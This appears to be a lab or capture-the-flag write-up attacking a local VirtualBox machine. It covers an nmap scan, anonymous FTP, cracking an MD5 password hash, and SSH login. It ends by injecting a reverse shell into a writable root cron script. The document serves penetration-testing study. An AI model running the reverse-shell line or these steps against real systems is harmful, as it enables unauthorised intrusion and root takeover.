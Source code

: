 # Troubleshooting
As `/etc/netplan` configuration of the machine says, there is a static ip address without DHCP. It's look weird and agains requirements of the assignment.
![](images/netplan_trouble.png)
For this purpose we decide to boot the machine in recovery mode and then enable `root` console, only for network managment.
Once `root` we have removed every file under /etc/netplan and then we've created a `/etc/rc.local` file with following code
```sh
#!/bin/bash
dhclient
exit 0
```
then `chmod 755 /etc/rc.local` and then, enable and restart the service (may take a while)
```sh
systemctl enable rc-local
systemctl restart rc-local
```

# Information Gathering
## Scanning
### nMap
```sh
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A 192.168.56.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-03 03:40 EDT
Nmap scan report for 192.168.56.2
Host is up (0.00087s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           216 Apr 30 12:08 site-credentials.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:dc:bf:b0:43:be:b5:ed:c4:1f:b8:0b:93:01:3a:4a (RSA)
|   256 2d:12:5e:5d:a5:11:18:ec:16:07:b6:ce:ae:7f:14:03 (ECDSA)
|_  256 b8:76:62:9f:68:28:a8:30:d0:87:13:fd:d1:10:aa:df (ED25519)
MAC Address: 08:00:27:61:9A:82 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
```
### ffuf


## Dump informations
### FTP
Since nMap shows us an anonymous login allowed on machine, try to explore..
```sh
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.2
    anonymous
    <blank_password>
```
![](images/ftp_login.png)
`site-credentials.txt` reports something like
```txt
In case you forget the credentials to upload the files on the website,the IT department provided me with a file containing the password.
They mentioned a certain MD5 code.

ftp-user 37b4e2d82900d5e94b8da524fbeb33c0
```
seems we have a password hashed with MD5, but.. MD5 is unsafe since 2008 then maybe a rainbow-table attack can "decode" it.

```sh
md5:37b4e2d82900d5e94b8da524fbeb33c0 -> football
```
then.. could be this a user of the system? try it.
```sh
──(kali㉿kali)-[~]
└─$ ssh ftp-user@192.168.56.2
    football
ftp-user@ubuntulab:~$
```
**An unpriviledged shell was obtained 🏴‍☠️**
### Mounted disks
```sh
ftp-user@ubuntulab:~$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 49.9M  1 loop /snap/snapd/18357
loop1    7:1    0 91.9M  1 loop /snap/lxd/24061
loop2    7:2    0 38.8M  1 loop /snap/snapd/21465
loop3    7:3    0 63.3M  1 loop /snap/core20/1828
sda      8:0    0  5.2G  0 disk
├─sda1   8:1    0    1M  0 part
├─sda2   8:2    0  500M  0 part /boot
├─sda3   8:3    0  510M  0 part [SWAP]
└─sda4   8:4    0  4.2G  0 part /
sr0     11:0    1 1024M  0 rom
```
### /etc/passwd
```sh
...
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:114:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftp-user:x:1001:1001:,,,:/usr/local/apache24/cgi-bin/:/bin/bash
```

# Play with users
## ftp-user
### Information gathering
Try to understand what are last operation of ftp-user by reading his **.bash_history** file
```sh
ftp-user@ubuntulab:~$ cat .bash_history
ls
cd ..
ls
cd ..
sl
lsv
exit
systemctl start apache2
systemctl status apache2.service
journalctl -xe
sudo journalctl -xe
exit
ls
exit
cat /etc/crontab
nano ../scripts/health_check.sh
vi ../scripts/health_check.sh
less ../scripts/health_check.sh
```
in his `/home` there are some files, maybe useful for priviledge escalation
```sh
ftp-user@ubuntulab:/usr/local/apache24/cgi-bin$ ls
printenv  printenv.vbs	printenv.wsf  test-cgi
```
### Execute and explore binaries
Try to execute `printenv`
```sh
ftp-user@ubuntulab:~$ ./printenv
-bash: ./printenv: Permission denied
ftp-user@ubuntulab:~$ printenv
SHELL=/bin/bash
PWD=/usr/local/apache24/cgi-bin/
LOGNAME=ftp-user
XDG_SESSION_TYPE=tty
MOTD_SHOWN=pam
HOME=/usr/local/apache24/cgi-bin/
LANG=en_US.UTF-8
LC_TERMINAL=iTerm2
SSH_CONNECTION=192.168.56.3 56806 192.168.56.2 22
XDG_SESSION_CLASS=user
TERM=xterm-256color
USER=ftp-user
LC_TERMINAL_VERSION=3.5.0beta22
SHLVL=1
XDG_SESSION_ID=37
XDG_RUNTIME_DIR=/run/user/1001
SSH_CLIENT=192.168.56.3 56806 22
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1001/bus
SSH_TTY=/dev/pts/0
_=/usr/bin/printenv
```
# Privilege escalation
## Cronjob health-check.sh
The crontab was set to execute the health-check.sh every minute (`*/1 * * * *`)
 as root. Since health-check.sh was writable by the `ftp-user` we were able to inject a reverse shell into it:
 ```sh
 sh -i >& /dev/tcp/<attacker_machine>/<attacker_port> 0>&1
``` 
